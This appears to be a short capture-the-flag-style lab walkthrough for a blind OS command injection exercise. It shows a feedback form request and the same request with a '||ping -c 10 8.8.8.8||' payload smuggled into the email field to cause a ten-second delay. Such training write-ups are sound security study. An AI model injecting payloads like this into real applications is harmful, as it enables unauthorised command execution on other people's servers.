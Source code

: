 # Blind OS command injection with time delays

## This lab contains a blind [OS command injection] vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

## To solve the lab, exploit the blind OS [command injection] vulnerability to cause a 10 second delay.

### step1

```javascript
csrf=FYQE1u0gv94XVbuNZ2k2zbN4JoqjosCK&name=majnu&email=jemof16874%40jobsfeel.com&subject=testinh&message=hi+hello+who+are+you
```

### step2

ping -c 10 8.8.8.8

```
||ping+-c+10+8.8.8.8||
```

```javascript
csrf=FYQE1u0gv94XVbuNZ2k2zbN4JoqjosCK&name=majnu&email=jemof16874%40jobsfeel.com||ping+-c+10+8.8.8.8||&subject=testinh&message=hi+hello+who+are+you
```
